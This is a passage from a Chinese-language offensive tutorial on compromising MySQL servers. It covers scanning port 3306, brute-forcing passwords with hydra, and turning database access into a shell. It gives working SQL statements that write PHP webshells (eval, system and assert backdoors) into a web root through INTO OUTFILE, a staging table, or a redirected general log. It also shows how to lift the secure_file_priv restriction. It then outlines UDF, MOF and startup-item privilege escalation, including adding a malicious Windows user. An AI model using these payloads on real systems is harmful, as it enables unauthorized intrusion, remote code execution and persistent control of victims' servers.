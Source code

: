 ## Ⅱ 信息与密码
MySQL默认端口为3306，可以直接nmap扫某一网段的3306端口。
其他工具比如msf的辅助模块，还有sqlmap找注入点。如果有像phpmyadmin这种MySQL管理工具就更方便了。

已知存在MySQL密码方面的话就暴力破解，hydra，bp等。
## Ⅲ Getshell
getshell的话需要有注入点或者拿到诸如phpmyadmin后台管理的密码。  
直接导出一句话后门：

```
select '<?php @eval($_POST[hack]);?>'INTO OUTFILE 'D:/phpstudy_pro/WWW/hack.php'
```
创建数据库导出一句话后门：

```
CREATE TABLE `mysql`.`hack` (`temp` TEXT NOTNULL );
INSERT INTO `mysql`.`hack` (`temp` ) VALUES('<?php @eval($_POST[hack]);?>');
SELECT `temp` FROM `hack` INTO OUTFILE'D:/phpstudy_pro/WWW/hack.php';
DROP TABLE IF EXISTS `hack`;
```

cmd命令：

```
select '<?php echo \'<pre>\';system($_GET[\'cmd\']); echo \'</pre>\'; ?>' INTO OUTFILE 'D:/phpstudy_pro/WWW/hack.php'
```
加密：

```
select unhex('十六进制字符串') into dumpfile 'D:/phpstudy_pro/WWW/hack.php'
```
上述导出文件的方法需要secure_file_priv为ON。可通过show variables like 'secure_file_priv';查看，通过在my.ini中添加secure_file_priv=''，可以开启导入导出功能。

日志getshell：

```
show global variables like "%genera%";
set global general_log='on';
set global general_log_file='D:/phpstudy_pro/WWW/hack.php';
select '<?php assert($_POST["hack"]);?>';
set global general_log_file = '原本日志文件路径';
set global general_log=off;
```
如果是url注入点，可以直接通过sqlmap实现注入。其他手工注入方式如union，报错等不再赘述。
## Ⅳ MySQL提权
网上流传的MySQL提权分为三类：  
1. UDF（用户自定义函数）提权（低版本mysql）
1. MOF提权（低版本windows）
1. 启动项提权

说明：  
1. udf提权需要拿到webshell，操作主要是把恶意dll放到MySQL/lib/plugin/udf.dll目录下。要说的是，反弹端口连接提权也是udf提权的一种。
1. mof提权也需要webshell，要把恶意mof文件放到c:/windows/system32/wbem/mof/AddUser.mof目录下，自动运行后会添加恶意用户。
1. 启动项提权需要外联的shell，主要是将VBS写入表里，然后导入启动项。
